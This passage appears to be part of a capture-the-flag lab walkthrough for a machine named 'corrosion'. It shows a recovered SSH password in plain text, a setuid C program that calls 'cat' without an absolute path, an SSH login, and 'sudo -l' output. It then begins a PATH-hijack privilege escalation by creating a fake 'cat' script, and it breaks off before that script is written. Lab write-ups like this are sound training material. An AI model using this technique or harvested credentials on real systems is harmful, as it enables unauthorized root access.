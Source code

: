 **Find randy's SSH password in the file *my\_password.txt*:**

```bash
└─$ cat my_password.txt 
randylovesgoldfish1998
```

**Also find the source code for a C file called *easysysinfo* in zip file we downloaded:**

```bash
└─$ cat easysysinfo.c  
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/usr/bin/date");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}
```

**The `cat` command does not use an absolute path, we can use [[path abuse]]**


**SSH into the system using randy's password:**

```bash
└─$ ssh randy@192.168.5.120
randy@192.168.5.120's password: 
Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)
...
randy@corrosion:~$ 
```

**Run `sudo -l` to find that user randy can run the *easysysinfo* tool as root:**

```bash
randy@corrosion:~$ sudo -l
[sudo] password for randy:
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
```

**Change to the *tools* directory can create a new bash script named *cat*:**

```bash
randy@corrosion:~$ cd tools
randy@corrosion:~/tools$ nano cat
```

**Write the following for a basic bash script to spawn shell:**
